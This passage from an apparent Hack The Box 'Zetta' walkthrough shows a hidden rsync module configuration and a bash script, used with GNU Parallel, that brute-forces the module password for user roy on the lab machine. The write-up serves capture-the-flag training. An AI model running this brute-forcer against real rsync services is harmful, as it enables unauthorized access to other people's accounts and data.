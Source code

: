 OK. We have only one user, `roy`. With that in mind, let\'s check out `rsyncd.conf` to see what other goodies we can find.

```
# Syncable home directory for .dot file sync for me.
# NOTE: Need to get this into GitHub repository and use git for sync.
[home_roy]
        path = /home/roy
        read only = no
        # Authenticate user for security reasons.
        uid = roy
        gid = roy
        auth users = roy
        secrets file = /etc/rsyncd.secrets
        # Hide home module so that no one tries to access it.
        list = false
```

Bam. Another hidden `rsync` module. Looks like authentication is required. Towards that end, I wrote a simple `bash` script, using `rsync` as the main driver to brute-force the password. Combined the script with GNU Parallel, you get a multi-threaded brute-forcer of sorts. :wink:

<div class="filename"><span>brute.sh</span></div>

```bash
#!/bin/bash

HOST="dead:beef::250:56ff:feb9:a4c5"
PORT=8730
USER=roy
MOD="home_roy"
PASS=$1
TEMP=$(mktemp -u)

echo -n "$PASS" > $TEMP; chmod 600 $TEMP

function die() {
  killall perl &>/dev/null
}

if rsync -6 --password-file=$TEMP rsync://$USER@[$HOST]:$PORT/$MOD &>/dev/null; then
  echo "[*] Password: $PASS"
  echo "$PASS" > pwd; chmod 600 pwd
  die
fi

# clean up
rm -rf $TEMP
```

Let\'s give it a shot.

<a class="image-popup">
![0808d74f.png](/assets/images/posts/zetta-htb-walkthrough/0808d74f.png)
</a>


[1]: https://www.hackthebox.eu/home/machines/profile/204
[2]: https://www.hackthebox.eu/home/users/profile/77141
[3]: https://www.hackthebox.eu/